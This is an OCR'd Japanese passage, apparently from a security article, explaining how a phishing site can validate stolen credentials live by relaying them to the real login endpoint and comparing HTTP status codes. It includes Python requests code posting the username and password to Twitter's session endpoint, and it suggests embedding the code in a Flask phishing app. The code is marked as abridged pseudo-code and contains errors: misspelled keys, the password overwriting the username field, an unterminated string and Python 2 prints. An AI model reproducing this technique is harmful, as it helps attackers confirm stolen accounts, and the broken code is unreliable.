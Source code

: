 =ここから=
OneLoginを使用しているAサイト ログイン成功時StatusCode: 302
OneLoginを使用しているAサイト ログイン失敗時StatusCode: 200

OneLoginを使用しているBサイト ログイン成功時StatusCode: 200 or 302
OneLoginを使用しているBサイト ログイン失敗時StatusCode: 403
=ここまで=

　フィッシングサイトで被害者の入力値(ユーザー名 / パスワード)を取得すれば、
フィッシングサイトの裏側で対象のシステムに不正にログインリクエストを送信
し、HTTPステータスコードを比較すれば正しいアカウントを確認することができ
ます。
　Pythonのrequestsモジュールでログインリクエストを送信する場合以下のよう
なコードになります。
　また、このソースコードをFlackアプリに埋め込むことでFlackで生成したフィ
ッシングサイトで簡単に有効なアカウントかのチェックが可能です。

=擬似フィッシングサイトリクエスト送信箇所 ここから=
import requests


session = requests.Session()

# ツイートPOST送信のリクエスト
headers = {
    "User-Agent": "Mozilla/5.0",
    "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
    "accept-language":"ja,en-US;q=0.8,en;q=0.6",
    "content-type":"application/x-www-form-urlencoded"
}

payload = {
	"ogin_user":"ユーザー名",
	"login_pwd":"パスワード",
	"show_remember":"0",
	"state_string":"XXXXXXXXX",
	"continue":"
} 


# 組織・団体のウェブサイトのユーザーIDをリクエストパラメータに設定
payload[ogin_user] = self.username
# 組織・団体のウェブサイトのユーザーPasswordをリクエストパラメータに設定
payload[ogin_user] = self.password

try:
    login = session.post('https://twitter.com/sessions', headers=headers, data=payload, allow_redirects=True)
    if login.status_code == 302:
        print "[+] ログイン完了 HTTPステータスコード: ",
        print login.status_code
    else:
        print "[+] ログイン失敗 HTTPステータスコード: ",
        print login.status_code
except:
    "[+] ログイン中に通信エラー"
※ソースコードは実際に実行できるコードから省略しています。
=擬似ソースコード ここまで=
